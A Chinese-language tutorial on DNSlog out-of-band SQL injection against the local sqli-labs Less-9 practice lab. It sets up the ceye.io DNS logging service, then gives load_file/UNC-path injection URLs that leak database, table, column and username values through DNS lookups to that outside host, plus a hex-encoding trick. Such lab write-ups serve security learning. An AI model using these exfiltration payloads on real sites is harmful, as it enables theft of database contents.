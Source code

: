 注册一个第三方DNS解析平台：http://ceye.io/  知道创宇的DNS平台

![](https://gitee.com/YatJay/image/raw/master/img/202202160006393.png)

查询当前数据库名：

```sql
http://localhost/pentest/sqlilabs/Less-9/?id=1'and load_file(concat('\\\\',(select database()),'.c4d3hg.ceye.io\\sql'))--+
```

![1626268713_60eee42920f8528632b38.png!small?1626268713117](https://image.3001.net/images/20210714/1626268713_60eee42920f8528632b38.png!small?1626268713117)

回显的数据

![1626268723_60eee43360cafc71599ff.png!small?1626268725107](https://image.3001.net/images/20210714/1626268723_60eee43360cafc71599ff.png!small?1626268725107)

查询当前数据库的第一个表名：

```sql
http://localhost/pentest/sqlilabs/Less-9/?id=1'and load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema='security'limit 0,1),'.c4d3hg.ceye.io\\sql'))--+
```

![1626268773_60eee4654f0a1b325ef13.png!small?1626268773449](https://image.3001.net/images/20210714/1626268773_60eee4654f0a1b325ef13.png!small?1626268773449)

可以看到这里成返回了第一个表的名字

依次类推可以推出users表

查询第users表一个列名：

```sql
http://localhost/pentest/sqlilabs/Less-9/?id=1'and load_file(concat('\\\\',(select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1),'.c4d3hg.ceye.io\\sql'))--+
```

![1626268799_60eee47f0c2f9d0845d0e.png!small?1626268798947](https://image.3001.net/images/20210714/1626268799_60eee47f0c2f9d0845d0e.png!small?1626268798947)

查询users表的username列的数据：

```sql
http://localhost/pentest/sqlilabs/Less-9/?id=1'and load_file(concat('\\\\',(select username from users limit 0,1),'.c4d3hg.ceye.io\\sql'))--+
```

![1626268814_60eee48e0b6e4d99d9953.png!small?1626268813976](https://image.3001.net/images/20210714/1626268814_60eee48e0b6e4d99d9953.png!small?1626268813976)

需要注意的点：

查询当前用户时,因为结果中有@符号，使用dnslog注入时，需要使用hex函数进行转码，再将查询到的hex转码后的数据解码即可，如下：

如果使用group_concat函数进行快读查询，也同样需要hex转码，利用如下：

```sql
http://localhost/pentest/sqlilabs/Less-9/?id=1'and load_file(concat('\\\\',(select hex(group_concat(table_name)) from information_schema.tables where table_schema='security'),'.c4d3hg.ceye.io\\sql'))--+
```
